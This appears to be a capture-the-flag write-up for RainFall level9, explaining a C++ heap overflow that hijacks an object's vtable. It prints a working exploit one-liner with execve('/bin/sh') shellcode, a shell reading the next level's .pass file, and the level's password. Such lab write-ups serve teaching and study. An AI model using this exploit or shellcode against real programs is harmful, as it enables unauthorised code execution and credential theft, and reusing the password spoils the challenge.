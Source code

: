 # level9: C++ Vtable Hijacking

## Challenge Overview

This challenge introduces a C++ program that uses object-oriented programming concepts such as virtual functions and memory management. The goal is to exploit a buffer overflow vulnerability in a way that takes advantage of C++'s vtable mechanism.

## Source Code Analysis

The program is a basic C++ application that defines a class `N` with a virtual function:

```cpp
class N {
public:
    // Constructor initializes an object with a value
    N(int value) {
        *(void ***)this = &vtable;
        *(int *)((char *)this + 104) = value;
    }

    // Copy string to internal buffer - vulnerable function!
    void setAnnotation(char *str) {
        size_t len = strlen(str);
        memcpy((char *)this + 4, str, len);
    }

    // Virtual function that adds values from two objects
    virtual int operator+(N *other) {
        int myValue = this->getValue();
        int otherValue = other->getValue();
        return otherValue + myValue;
    }

    int getValue() {
        return *(int *)((char *)this + 104);
    }

private:
    // Memory layout:
    // Bytes 0-3:   vtable pointer
    // Bytes 4-103: buffer for annotation
    // Bytes 104-107: integer value
    static void *vtable;
};
```

The `main()` function creates two objects and calls the virtual function:

```cpp
int main(int argc, char **argv) {
    if (argc < 2) {
        _exit(1);
    }

    N *obj1 = new N(5);  // First object with value 5
    N *obj2 = new N(6);  // Second object with value 6

    obj1->setAnnotation(argv[1]);  // Copy user input to obj1

    obj2->operator+(obj1);  // Call virtual function on obj2

    return 0;
}
```

## Vulnerability

The vulnerability is in the `setAnnotation()` method:

```cpp
void setAnnotation(char *str) {
    size_t len = strlen(str);
    memcpy((char *)this + 4, str, len);  // No bounds checking!
}
```

This function:

1. Takes a string and measures its length
2. Copies the string to an internal buffer starting at offset 4
3. Does not verify if the string fits within the 100 bytes allocated for the buffer

Since there's no bounds checking, we can provide a string longer than 100 bytes, causing a buffer overflow that can overwrite adjacent memory.

## Exploitation

To exploit this vulnerability, we need to understand C++'s vtable mechanism:

1. **Object Memory Layout**:

   - Each object with virtual functions has a vtable pointer at the beginning
   - The vtable pointer points to a table of function addresses
   - When a virtual function is called, the program looks up its address in the vtable

2. **Memory Organization**:

   - GDB analysis shows obj1 is at address 0x804a00c
   - obj2 is at address 0x804a078 (108 bytes after obj1)
   - When we overflow obj1's buffer, we can overwrite obj2's vtable pointer

3. **Exploit Strategy**:
   - Fill obj1's buffer with our shellcode
   - Place a pointer to our shellcode at the beginning of obj1
   - Overflow obj1 to overwrite obj2's vtable pointer, making it point to obj1
   - When obj2's virtual function is called, it will follow the fake vtable and execute our shellcode

Through GDB debugging, we found that:

- obj1 starts at 0x804a00c
- obj1's buffer starts at 0x804a010 (4 bytes offset)
- obj2's vtable pointer is at 0x804a078
- To overflow from obj1 to obj2, we need exactly 108 bytes

The key insight was that we couldn't just point directly to the shellcode - we needed to create a "fake vtable" structure:

1. At address 0x804a00c: Place the address 0x804a010 (pointing to our shellcode)
2. At address 0x804a010: Place our shellcode
3. Use padding to reach exactly 108 bytes
4. Overwrite obj2's vtable pointer with 0x804a00c (address of our fake vtable)

## Getting the Password

We constructed our exploit string as follows:

```
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * (108 - 4 - 21) + "\x0c\xa0\x04\x08"')
```

Where:

- `\x10\xa0\x04\x08` is the address of our shellcode (0x804a010)
- The next 21 bytes are the shellcode for `execve("/bin/sh")`
- "A" \* (108 - 4 - 21) bytes of padding to reach obj2's vtable pointer
- `\x0c\xa0\x04\x08` is the address of obj1 (0x804a00c), our fake vtable

This gives us a shell, allowing us to retrieve the password:

```
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Moving to Next Level

Use the password to log in to bonus0:

```bash
level9@RainFall:~$ su bonus0
Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
bonus0@RainFall:~$
```
